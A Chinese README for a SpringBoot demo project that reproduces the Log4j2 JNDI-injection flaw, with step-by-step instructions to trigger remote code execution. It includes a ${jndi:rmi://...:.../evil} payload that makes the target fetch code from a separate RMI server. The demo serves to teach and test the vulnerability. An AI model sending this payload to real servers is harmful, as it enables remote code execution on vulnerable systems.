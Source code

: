 # 工程简介

# SpringBoot + Log4j2测试高危漏洞演示代码
 
 演示场景1：本地测试log4j2日志打印通过植入执行代码非法提取信息；
 
          测试方式：运行com.itpkm.springmvclog4j2.test.Log4j2SimpleTest

 演示场景2：通过web应用入口植入攻击代码以获得远程代码执行权限；

          测试步骤：
          1）运行com.itpkm.springmvclog4j2.SpringmvcLog4j2Application模拟正常应用启动；
          2）运行com.itpkm.springmvclog4j2.rmi.RmiServer模拟远程RMI服务；
          3）通过postman post请求发送body-raw类型参数：${jndi:rmi://{RMIServerIP}:{RMIServerPort}/evil}
          4）观察SpringmvcLog4j2Application控制台日志输出，日志输出即代表着攻击型代码的执行——即JVM所在服务受攻击
 要求：Log4j2 < v2.15.0
 
 ![img_1.png](img_1.png)

# 原理说明（待补充）


